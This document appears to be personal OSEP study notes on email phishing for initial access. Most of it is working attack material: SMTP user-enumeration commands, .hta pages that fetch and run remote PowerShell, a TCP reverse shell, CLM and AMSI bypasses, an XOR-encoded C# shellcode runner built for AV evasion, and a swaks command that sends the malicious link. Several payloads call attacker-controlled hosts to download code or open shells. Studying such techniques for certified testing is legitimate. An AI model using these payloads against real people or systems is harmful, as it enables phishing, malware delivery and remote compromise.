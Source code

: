 ## Phishing through Email

First of all, you need to find a valid email account to send the phish to. This could either be through enumeration of the web portals or if SMTP is open, using the following enum command
```bash
# Can check via manual telnet to see which method is allowed
$ smtp-user-enum -M VRFY -U users.txt -t 10.0.0.1
$ smtp-user-enum -M EXPN -u admin1 -t 10.0.0.1
$ smtp-user-enum -M RCPT -U users.txt -T mail-server-ips.txt
$ smtp-user-enum -M EXPN -D example.com -U users.txt -t 10.0.0.1
```

### Payload - Via .hta

- Only works if victim is using IE and hence mshta.exe will execute the .hta payload
- Lets prepare a .hta payload which we can serve as a link in our email's body to entice the victim to click and execute
- Payload from simple to complex
- We call the below evil.hta

**Simple Powershell Download Cradle and RevShell via TCPSocket**
- Can evade AV because of the use of "non-standard" var names
- Note if you dont see the run.txt being downloaded, it may be because the method of New-Object System.Net.WebClient is restricted by CLM. You can use IWR instead
```html
<html>
<head>
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var r = shell.Run("powershell.exe (New-Object System.Net.WebClient).DownloadString('http://<ip>/run.txt')| IEX");
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>
```
![run.txt here](https://github.com/OoStellarnightoO/OSEP_Notes/blob/main/99%20-%20Misc%20Stuff/PS_Nishang_OneLiner_RevShell.ps1)

For run.txt, you can also Base64 Encode it but if you are using cyberchef, remember to Encode Text (UTF-16 LE) recipe before Base64 encode recipe!
![alt text](image.png)

**Simple Powershell Download EXE and Execute**
- No AMSI and Applocker bypass so will likely download the EXE but fail to execute

```html
<html>
<head>
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var r = shell.Run("powershell.exe iwr -uri http://<ip>/msf.exe -outfile C:\\users\\public\\msf.exe; C:\\users\\public\\msf.exe");
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>
```

**PSBypassCLM Rev Shell**
- Requires InstalUtil. Bypasses CLM for that session

```html
<html>
<head>
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var r = shell.Run("powershell.exe iwr -uri http://<ip>/psbypassclm.exe -outfile C:\\users\\public\\bypass.exe; C:\\Windows\\Microsoft.NET\\Framework64\\v4.0.30319\\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=<kali ip> /rport=443 /U c:\\Users\\Public\\bypass.exe");
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>
```

**.hta > CLMBypass > NishangRevShell**
- Basically craft a hta that directs the victim to download the CLMBypass exe from your apache2 server
- Within this CLMBypass is an AMSI bypass that is downloaded from your apache2 server and then executing a somewhat obfuscated NishangRevShell (change the var names)
- The .hta code below
```html
<html>
<head>
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var r = shell.Run("powershell iwr -uri http://192.168.45.193/irs.exe -Outfile C:\\Windows\\tasks\\irs.exe;C:\\Windows\\Microsoft.NET\\Framework64\\v4.0.30319\\InstallUtil.exe /logfile= /LogToConsole=true /U C:\\Windows\\tasks\\irs.exe");
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>
```
The CLMBypass excerpt below
```csharp
String cmd1 = "(New-Object System.Net.WebClient).DownloadString('http://192.168.45.193/amsi.txt') | IEX;";
            String cmd2 = "$cli = New-Object System.Net.Sockets.TCPClient('192.168.45.193',443);$str = $cli.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $str.Read($bytes, 0, $bytes.Length)) -ne 0){;$d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sb = (iex $d 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbyte = ([text.encoding]::ASCII).GetBytes($sb2);$str.Write($sbyte,0,$sbyte.Length);$str.Flush()};$cli.Close()";
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();
```


**C# Shellcode Runner + DOTNET2JS**
- hmm stealthy? No Powershell at least
- Spin up the dotnet2js sln file; Remember to comment out the dotnet v2 line in Program.cs of the main project
- In the ExampleAssembly's TestClass.cs, put the following code. Compiled in x64

```csharp
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Windows.Forms;

[ComVisible(true)]
public class TestClass
{
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize,
  uint flAllocationType, uint flProtect);

    [DllImport("kernel32.dll")]
    static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize,
      IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

    [DllImport("kernel32.dll")]
    static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

    public TestClass()
    {
        byte[] buf = <shellcode here x64>;

        int size = buf.Length;

        IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

        Marshal.Copy(buf, 0, addr, size);

        IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

        WaitForSingleObject(hThread, 0xFFFFFFFF);
    }
}

```
**XOR-ed C# Shellcode Runner + DOTNET2JS + AMSI BYPASS IN JSCRIPT**

- use our XOR_Helper to generate XOR-ed C# Shellcode
- Put the XOR-ed shellcode into the shellcode script in ExampleAssembly.dll
- Add a decryption function in the ExampleAssembly.dll after the buf variable like this
```csharp
        byte[] buf = <shellcode here x64>;

//assuming your XOR key is 0xfa
        for (int i = 0; i < buf.Length; i++)
        {
            buf[i] = (byte)((uint)buf[i] ^ 0xfa);
        }

        int size = buf.Length;
```
- when your evil.js is created, open it and slam the following code at the top:
- Note you may need to obfuscare the AmsiEnable code block through some simple string manipulation like below
```js
var sh = new ActiveXObject('WScript.Shell');
var key = "HKCU\\Software\\Microsoft\\Windows Script\\Settings\\A" +"msi"+"Enable";

try{
	var AEnable = sh.RegRead(key);
	if(AEnable!=0){
	throw new Error(1, '');
	}
}catch(e){
	sh.RegWrite(key, 0, "REG_DWORD"); 
	sh.Run("cscript -e:{F414C262-6AC0-11CF-B6D1-00AA00BBBB58} "+WScript.ScriptFullName,0,1); 
	sh.RegWrite(key, 1, "REG_DWORD"); 
	WScript.Quit(1);
}

<rest of your dotnet2jscript stuff>
```
- This should bypass a noobish Defender and AMSI
- There is a chance that Defender will still catch your meterpreter shell. As such, it might be a good idea to do the following when running your multi/handler. Note you may need to run it multiple times for it to work
```bash
# this will run the migrate module and by default it will attempt to migrate to notepad.exe once a shell is established
exploit(multi/handler) > set AutoRunScript post/windows/manage/migrate
```
### Sending the email!

Make sure your apache server is running to serve the .hta

```bash
sudo swaks -t will@offsec.com --from hacker@hacker.com --server <Target IP with SMTP> --body 'Click here http://192.168.45.195/evil.hta' --header Anything
```